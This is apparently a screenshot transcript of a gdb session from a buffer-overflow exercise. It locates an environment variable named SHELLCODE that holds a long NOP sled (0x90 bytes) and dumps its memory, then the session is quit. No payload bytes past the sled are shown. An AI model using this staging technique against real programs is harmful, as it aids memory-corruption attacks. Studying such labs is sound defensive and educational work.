 
Breakpoint 1, 0x080483f7 in main ()
(gdb) x/s *((char **)environ+0)
0xbffff56d:      "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
(gdb) x/150xg 0xbffff56d
0xbffff56d:     0x444f434c4c454853      0x9090909090903d45
0xbffff57d:     0x9090909090909090      0x9090909090909090
0xbffff58d:     0x9090909090909090      0x9090909090909090
0xbffff59d:     0x9090909090909090      0x9090909090909090
0xbffff5ad:     0x9090909090909090      0x9090909090909090
0xbffff5bd:     0x9090909090909090      0x9090909090909090
0xbffff5cd:     0x9090909090909090      0x9090909090909090
0xbffff5dd:     0x9090909090909090      0x9090909090909090
0xbffff5ed:     0x9090909090909090      0x9090909090909090
0xbffff5fd:     0x9090909090909090      0x9090909090909090
0xbffff60d:     0x9090909090909090      0x9090909090909090
0xbffff61d:     0x9090909090909090      0x9090909090909090
0xbffff62d:     0x9090909090909090      0x9090909090909090
0xbffff63d:     0x9090909090909090      0x9090909090909090
0xbffff64d:     0x9090909090909090      0x9090909090909090
0xbffff65d:     0x9090909090909090      0x9090909090909090
0xbffff66d:     0x9090909090909090      0x9090909090909090
0xbffff67d:     0x9090909090909090      0x9090909090909090
0xbffff68d:     0x9090909090909090      0x9090909090909090
0xbffff69d:     0x9090909090909090      0x9090909090909090
0xbffff6ad:     0x9090909090909090      0x9090909090909090
0xbffff6bd:     0x9090909090909090      0x9090909090909090
0xbffff6cd:     0x9090909090909090      0x9090909090909090
0xbffff6dd:     0x9090909090909090      0x9090909090909090
0xbffff6ed:     0x9090909090909090      0x9090909090909090
0xbffff6fd:     0x9090909090909090      0x9090909090909090
0xbffff70d:     0x9090909090909090      0x9090909090909090
0xbffff71d:     0x9090909090909090      0x9090909090909090
0xbffff72d:     0x9090909090909090      0x9090909090909090
0xbffff73d:     0x9090909090909090      0x9090909090909090
0xbffff74d:     0x9090909090909090      0x9090909090909090
0xbffff75d:     0x9090909090909090      0x9090909090909090
0xbffff76d:     0x9090909090909090      0x9090909090909090
0xbffff77d:     0x9090909090909090      0x9090909090909090
0xbffff78d:     0x9090909090909090      0x9090909090909090
0xbffff79d:     0x9090909090909090      0x9090909090909090
0xbffff7ad:     0x9090909090909090      0x9090909090909090
0xbffff7bd:     0x9090909090909090      0x9090909090909090
0xbffff7cd:     0x9090909090909090      0x9090909090909090
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) q
A debugging session is active.
